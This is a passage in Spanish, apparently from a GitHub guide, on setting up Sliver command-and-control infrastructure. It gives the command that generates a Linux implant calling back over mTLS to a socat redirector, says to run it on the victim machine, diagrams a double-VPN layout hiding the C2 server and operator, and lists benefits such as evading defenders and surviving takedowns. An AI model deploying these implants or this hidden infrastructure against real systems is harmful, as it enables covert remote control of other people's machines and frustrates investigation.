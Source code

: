 <img width="1262" height="414" alt="image" src="https://github.com/user-attachments/assets/4e4b82d7-5b02-4ea0-b42d-a30401836de9" />

una vez conectados al server sliver podemos comenzar a crear los implantes:

```bash
generate --mtls 192.168.100.112:443 --os linux --arch amd64 --format elf --save sliver-payload
```
* La IP y Puerto deben ser los del redirector, donde se encuentra socat en escucha (192.168.100.112:443)
---
Ya creado el implante sliver, lo cargamos en la maquina victima y lanzamos el binario


<img width="2554" height="1080" alt="image" src="https://github.com/user-attachments/assets/a5e8f70a-01ab-451b-9f45-1baebd9cc2d9" />

* La infraestructura a funcionado correctamente ya que hemos obtenido la conexion desde la maquina victima!, hemos levantado una infraestructura `Zero Trust`, es decir, que no confiamos en ningun usuario ni tampoco en ningun punto del sistema, esto garantiza que si el server `OpenVPN` es comprometido por algun motivo, solo puedan llegar a ver las IP's de `Nordvpn` (Una capa mas de seguridad) y no las reales de `Server Sliver C2` ni mucho menos la del `Operador C2`

```mermaid
flowchart LR
    Victima["💻 Máquina Víctima (Implante Sliver)"]
    Redirector["🔀 Redirector (socat)"]
    ServidorC2["🖥️ Servidor Sliver C2"]
    Operador["👤 Operador C2"]

    %% Flujo principal
    Victima -->|"Conexión Internet"| Redirector -->|"Reenvío de tráfico"| ServidorC2

    %% Red VPN doble
    subgraph VPNs ["Túnel de Doble VPN"]
        direction LR
        ServidorC2 -->|"Conexion VPN 1"| NordVPN["🌐 NordVPN"]
        Operador -->|"Conexion VPN 1"| NordVPN
        NordVPN --> OpenVPN["🔒 Servidor OpenVPN 10.10.10.0/24"]
    end

    %% Direcciones en la red interna
    ServidorC2 <-->|"Conexion VPN 2 - IP interna 10.10.10.10"| OpenVPN
    Operador <-->|"Conexion VPN 2 - IP interna 10.10.10.6"| OpenVPN

    %% Administración
    Operador -->|"Control Sliver 10.10.10.10:31337"| ServidorC2
```


## ✅ Ventajas de la infraestructura:

* Ocultación del Servidor C2 Real: El redirector actúa como un punto intermedio, ocultando la IP real del servidor C2. Esto dificulta que los defensores rastreen la infraestructura maliciosa hasta el servidor principal.
* Flexibilidad Geográfica: Puedes desplegar el redirector en una región diferente (ej. usando un VPS barato) para evadir bloqueos geográficos o perfiles de tráfico sospechoso.
* Resistencia ante Takedowns: Si el redirector es descubierto y bloqueado, se puede reemplazar rápidamente sin afectar al servidor C2 principal (siempre que se cambie la dirección en el implante).
* Protección contra Análisis de Tráfico: El uso de VPN (NordVPN + OpenVPN) encripta el tráfico entre el servidor C2, el operador y el propio servidor OpenVpn dificultando la interceptación o el análisis por parte de terceros.
* El operador no se conecta nunca directamente al Implante ni al Redirector, la única dirección IP "pública" expuesta en la comunicación con los implantes es la del Redirector. La IP del servidor C2 y del operador estan ocultas por doble VPN
